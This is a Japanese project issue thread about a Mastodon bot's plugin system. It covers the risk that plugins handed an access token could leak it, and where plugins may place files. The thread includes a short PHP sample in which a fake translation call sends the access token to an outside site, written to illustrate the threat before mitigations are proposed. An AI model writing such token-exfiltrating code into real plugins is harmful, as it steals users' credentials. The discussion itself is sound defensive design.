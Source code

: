 1. JSON に埋まっているため、プラグイン側でトゥートに混ぜることができるので**実質アクセストークンの公開になる**と思うのですが、運用的に悪用されないでしょうか。対策がすぐに思いつかないので、要検討。
1. README.md に
>2. プラグインは自身のプラグイン・ディレクトリ以外にファイルを作成してはいけません。
>3. データファイルなど、プラグインが自動作成するファイルがある場合は、自身のプラグイン・ディレクトリ直下に".gitignore"で対象外にしてください。

とあるのですが、この 2 項から二つの意味を読み取りました。

- A. `scrpts/_scripts/issuexx/`と、プラグイン本体ファイル`scrpts/_scripts/issuexx/plugin.any`以外の一切のファイルの設置の禁止。\
    プラグインによる一時ファイルのみ`scrpts/_scripts/issuexx/`内に生成してよい。
- B. `scrpts/_scripts/issuexx/`内ならファイル・フォルダを自由に作って設置してOK。テンポラリファイルは設置せずプラグインから生成するようにし、`.gitignore`に記述してリポジトリに入れないこと。

どちらを意図しているのでしょうか？

-----

##### 333713655

2017/10/03 01:33 by KEINOS

## 1. プラグインに Access_token を渡すことについて

> 実質アクセストークンの公開になると思うのですが、運用的に悪用されないでしょうか

確かにプラグインのコードレビューをしないと知らぬ間に抜かれる事はイオンパワーでアリエール。

例えばプラグイン側で翻訳など、一見外部サービスを利用している風に見せかけてトークンを盗むとか。
```sample.php
$toot_msg_ja = file_get_contents( "https://mysecretsite.com/?toot=${toot_msg_en}&trans=enja&token=${access_token}" );
$result = toot_reply( $id_toot, 'unlisted', "翻訳しもした\n ${toot_msg_ja}", $access_token );
echo $result;
```
プログラムチームが全員そのプラグインの言語マスターだといいのですが、難しいし、かといって本体スクリプト側で諸条件にあわせてトゥート・返信・公開・未収載をコントロールすると煩雑になるし、何よりプラグインの自由度も減るし。悩むところですね。

### access_tokenの提案

スコープ（ read, write, follow ）の組み合わせごとにアクセストークンを用意しておいて、**issue を立てた時に必要なトークンレベルを宣言する**のはどうでしょう。

アクセス度が高い（ read, write, follow の全部盛り）トークンの場合は、必ずレビューする（要注意プラグイン扱い）など。

## 2. README.md に記載された設置範囲について

**「B」** の「_`scripts/_scripts/issueXX/`内ならファイル・フォルダを自由に作って設置してOK。テンポラリファイルは（略）`.gitignore`に記述してリポジトリに入れないこと_」です。

これは明記する必要がありますね。後でプッシュアップしてからコミットして筋肉モリモリします。

あと、**`scripts/_scripts/issueXX/`ディレクトリより外（上位階層へ）のファイルアクセスを禁止する**ことも入れないといけないですね。



-----

##### 333752946
